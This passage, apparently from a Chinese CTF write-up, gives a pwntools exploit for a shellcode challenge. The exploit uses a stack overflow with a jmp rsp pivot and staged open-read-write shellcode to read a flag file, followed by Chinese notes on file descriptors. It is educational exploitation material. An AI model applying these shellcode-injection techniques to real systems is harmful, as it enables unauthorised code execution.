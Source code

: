 ```plain
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

#dbg()
ru('Easy shellcode, have fun!')

mmap=0x123000
#orw=shellcraft.open('./flag.txt')
orw=shellcraft.open('./flag')
orw+=shellcraft.read(3,mmap,0x50)
orw+=shellcraft.write(1,mmap,0x50)

jmp_rsp=0x400A01

pl=asm(shellcraft.read(0,mmap,0x100))+asm('mov rax,0x123000;call rax')
pl=pl.ljust(0x28,b'\x00')
pl+=p64(jmp_rsp)+asm('sub rsp,0x30;jmp rsp')


sl(pl)

shell=asm(orw)
sl(shell)

p.interactive()
```

解释一下 exp

[![](assets/1701612140-11d10e99b12c295ccb71caf4dfec343b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230815203640-6261d0f0-3b68-1.png)

*   第一个框就是构造我们 orw 的 shellcode 了，先打开 flag 文件，之后利用 read 写入 flag，再输出 flag

这里先说一下为什么 read 的 fd 是 3，可以结合下面图片，0~2 都是保留的用于缓冲区，我们打开第一个新文件的文件描述符是 3，第二个是 4，以此类推
